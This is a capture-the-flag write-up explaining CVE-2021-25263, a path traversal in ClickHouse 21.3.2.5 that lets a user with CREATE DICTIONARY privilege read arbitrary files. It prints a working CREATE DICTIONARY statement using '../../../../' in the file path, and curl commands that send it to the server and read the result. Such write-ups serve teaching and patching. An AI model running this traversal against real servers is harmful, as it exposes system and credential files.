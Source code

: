 # ReaCH me

## Vulnerability
CVE-2021-25263

## Exploitation
The challenge is limited to a single docker image of ClickHouse 21.3.2.5, with a flag in the root folder.  
Looking at [ClickHouse security changelog](https://clickhouse.com/docs/en/whats-new/security-changelog), we find that our version is vulnerable to:
> CVE-2021-25263  
> An attacker that has CREATE DICTIONARY privilege, can read arbitary file outside permitted directory.

An [exploit](https://250.ac.cn/2021/10/18/CVE-2021-25263) can be found online.

If not found, looking in ClickHouse repository, we find two issues talking about the CVE:  
https://github.com/ClickHouse/ClickHouse/issues/26823  
https://github.com/ClickHouse/ClickHouse/issues/28056

They both link to the commit that fixed the issue ([link](https://github.com/ClickHouse/ClickHouse/pull/22822)).

Before, when creating a dictionary, ClickHouse took the user input and ensured it starts with the user_files_path setting (by default: `/var/lib/clickhouse/user_files/`).  
After the fix, the user input is transformed into an absolute path.

This fix hints that ClickHouse is subject to Local File Inclusion, using a user input like `/var/lib/clickhouse/user_files/../../../../etc/passwd`.

ClickHouse documentation explains how to [create a dictionary](https://clickhouse.com/docs/en/sql-reference/statements/create/dictionary#syntax), over a [local file](https://clickhouse.com/docs/en/sql-reference/dictionaries#local_file).

The main difficulty here is to find a suitable file format.  
After trial and error, one format allow reading any kind of file on disk is `CustomSeparated`, specifying a separator.

In our case, that leads to:
```sql
CREATE DICTIONARY flag (
    id UInt64,
    incomplete_flag String DEFAULT ''
)
PRIMARY KEY id
SOURCE(FILE(PATH '/var/lib/clickhouse/user_files/../../../../flag' FORMAT 'CustomSeparated'))
LIFETIME(MIN 0 MAX 1000)
LAYOUT(FLAT())
SETTINGS(format_custom_field_delimiter = 'f', format_custom_row_after_delimiter = '')
```

We can then read the content of the dictionary using `SELECT * from flag`.

The following two commands summarises the exploit:
```bash
echo "CREATE DICTIONARY flag (id UInt64, incomplete_flag String DEFAULT '') PRIMARY KEY id SOURCE(FILE(PATH '/var/lib/clickhouse/user_files/../../../../flag' FORMAT 'CustomSeparated')) LIFETIME(MIN 0 MAX 1000) LAYOUT(FLAT()) SETTINGS(format_custom_field_delimiter = 'f', format_custom_row_after_delimiter = '')" | curl 'http://localhost:8123/' --data-binary @-
echo "SELECT * FROM flag" | curl 'http://localhost:8123/' --data-binary @-
```

## Fix
Upgrade ClickHouse
